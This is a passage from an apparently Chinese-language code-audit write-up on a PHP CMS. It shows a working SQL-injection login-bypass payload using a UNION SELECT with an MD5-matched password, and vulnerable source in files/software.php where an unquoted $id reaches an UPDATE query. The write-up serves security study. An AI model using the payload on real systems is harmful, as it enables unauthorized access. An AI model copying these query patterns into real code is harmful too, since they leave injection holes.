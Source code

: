 ```php
exit;
ob_end_flush();
}
?>
```

这里查用户名，查出以后在判断 其密码md5 值是否相等，

那么我们即可构造万能密码，受 php.ini 配置和 mysql 字符集的影响，这里 mysql 字符集为 utf-8 ,

如果 php.ini 中 `magic_quotes_gpc = Off` 就存在注入，如果为 on 就不存在。

> ### php5.4 magic_quotes_gpc默认关闭              

我们暂且按照关闭测试。

先看看数据库有 8 个字段

![image-20210218111548033](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210218111548033.png)

第四个是密码。

构造

```php
账号： 1' union select 1,2,3,md5(4),5,6,7,8#
密码： 4
```

成功登录，

当然此处其他注入收发也可以，比如报错注入。

## 六、前台sql注入

![image-20210218115143667](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210218115143667.png)

`files/software.php`: 

```php
<?php 
require 'inc/conn.php';
require 'inc/time.class.php';
$query = "SELECT * FROM settings";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$info = mysql_fetch_array($resul);
$id=addslashes($_GET['cid']);
$query = "SELECT * FROM download WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$download = mysql_fetch_array($resul);

//浏览计数
$query = "UPDATE download SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
?>
```
